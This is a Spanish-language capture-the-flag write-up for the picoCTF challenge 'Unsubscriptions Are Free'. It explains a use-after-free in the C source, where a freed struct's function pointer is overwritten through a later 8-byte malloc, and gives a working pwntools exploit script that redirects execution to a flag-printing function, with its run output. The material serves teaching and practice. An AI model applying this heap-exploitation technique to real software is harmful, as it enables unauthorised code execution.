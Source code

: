 En este ejercicio nos dan un binario y su código fuente.

```c
checksec
File:     /home/ub1cu0/Desktop/picoCTF/Unsubscriptions_Are_Free/vuln_patched
Arch:     i386
RELRO:      Partial RELRO
Stack:      Canary found
NX:         NX enabled
PIE:        No PIE (0x8048000)
Stripped:   No
```

El programa es un menú con bastantes opciones:

```c
./vuln_patched
Welcome to my stream! ^W^
==========================
(S)ubscribe to my channel
(I)nquire about account deletion
(M)ake an Twixer account
(P)ay for premium membership
(l)eave a message(with or without logging in)
(e)xit
```

La mayoría simplemente imprimen algo y no son relevantes, si miramos el código podemos ver varias zonas críticas en el código:

```c
typedef struct {
	uintptr_t (*whatToDo)();
	char *username;
} cmd;

cmd *user;
```

Aquí se define un `struct` llamado `cmd` con dos campos, ambos punteros.\
El primero (`whatToDo`) es un **puntero a función**, es decir, guarda una dirección a una función que se puede ejecutar.\
El segundo (`username`) es un puntero a una cadena de texto. Luego, declara un puntero `user` de tipo del struct creado anteriormente

```c
void doProcess(cmd* obj) {
	(*obj->whatToDo)();
}
```

La función `doProcess` hace un call a donde apunte el puntero `whatToDo`.

Esto implica que si conseguimos modificar a donde apunte `whatToDo` cada vez que el programa ejecute la función `doProcess` el flujo del programa irá a donde nosotros queramos. Como podemos conseguir modificarlo? Vamos a ver como usa `user` el programa:

```c
int main(){
. . .
	user = (cmd *)malloc(sizeof(user)); // Aquí
. . .
}
```

El programa crea un user en el heap así que nuestro objetivo es el heap. La estructura del heap en ese caso sería que donde apunta user estará el primer argumento del struct, es decir, el puntero que queremos modificar y 4 bytes después estará el parámetro username.

Si miramos mas el código vamos a ver que tenemos el control de 2 cosas importantes:

```c
void leaveMessage(){
	puts("I only read premium member messages but you can ");
	puts("try anyways:");
	char* msg = (char*)malloc(8);
	read(0, msg, 8);
}
```

y

```c
void i(){
	char response;
  	puts("You're leaving already(Y/N)?");
	scanf(" %c", &response);
	if(toupper(response)=='Y'){
		puts("Bye!");
		free(user); // Tenemos control del free
	}else{
		puts("Ok. Get premium membership please!");
	}
}
```

Como podemos ver, la primera función nos permite escribir algo en el heap, así que busca el primer hueco libre y escribe ahí lo que metamos en la variable `msg`.\
En la segunda función, podemos hacer un `free(user)`, y como `user` es de tipo `cmd`, que es un struct de 8 bytes (4 bytes para la dirección de la función y 4 para el username), el programa marcará ese bloque como libre.

Esto significa que, cuando volvamos a usar `malloc(8)` (como ocurre al escribir en `msg`), nos dará ese mismo bloque de nuevo. Entonces, lo que escribamos sobrescribirá tanto el puntero a función como el puntero al nombre de usuario dentro del struct `user`.

Ahora que tenemos control sobre esos 8 bytes, podemos redirigir el flujo del programa a donde queramos. Si echamos un ojo al binario, vemos que hay una función llamada `hahaexploitgobrrr` que imprime la flag:

```c
void hahaexploitgobrrr(){
 	char buf[FLAG_BUFFER];
 	FILE *f = fopen("flag.txt","r");
 	fgets(buf,FLAG_BUFFER,f);
 	fprintf(stdout,"%s\n",buf);
 	fflush(stdout);
}
```

Así que con eso ya estamos listos para hacer el exploit:

```python
#!/usr/bin/env python3

from pwn import *
import sys

exe = ELF("./vuln_patched")

context.binary = exe
context.terminal = ['kitty']
gdb_script = '''
b doProcess
'''

def conn():
    if args.LOCAL:
        r = process([exe.path])
        if args.GDB:
            gdb.attach(r, gdbscript=gdb_script)
        return r
    return remote("mercury.picoctf.net", 61817)

def main():
    io = conn()
    
    io.sendlineafter(b'(e)xit\n' , b's')
    win_addr = int(io.recvline().decode().strip().split('...')[1], 16)
    log.success(f'Dirección Win: {hex(win_addr)}')
    
    io.sendline(b'i')
    io.recvline()
    io.sendlineafter(b"You're leaving already(Y/N)?\n" , b'Y')
    
    io.sendlineafter(b'(e)xit\n' , b'L')
    io.sendlineafter(b':', p32(win_addr))
    
    io.interactive()

if __name__ == "__main__":
    main()

```

```c
python solve.py       

[*] '/home/ub1cu0/Desktop/picoCTF/Unsubscriptions_Are_Free/vuln_patched'
    Arch:       i386-32-little
    RELRO:      Partial RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        No PIE (0x8048000)
    Stripped:   No
[+] Opening connection to mercury.picoctf.net on port 61817: Done
[+] Dirección Win: 0x80487d6
[*] Switching to interactive mode

picoCTF{SECRET}
```
